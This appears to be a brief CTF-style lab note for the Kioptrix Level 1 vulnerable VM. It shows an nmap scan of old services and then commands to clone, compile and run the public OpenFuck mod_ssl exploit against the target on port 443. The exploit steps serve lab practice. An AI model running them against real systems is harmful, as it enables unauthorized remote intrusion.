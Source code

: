 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 9/december/2022

# Kioptrix level 1

------------------------------------------------------------------
# nmap scan (got ssl version-2.8.4 vulnerable to openfuck exploit)
------------------------------------------------------------------

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)

------------------------------------------------------------------
# download and use openfuck exploit 
------------------------------------------------------------------

-> git clone https://github.com/heltonWernik/OpenLuck.git
-> apt-get install libssl-dev
-> gcc -o OpenFuck OpenFuck.c -lcrypto
-> ./OpenFuck
-> ./OpenFuck 0x6b $IP 443 -c 40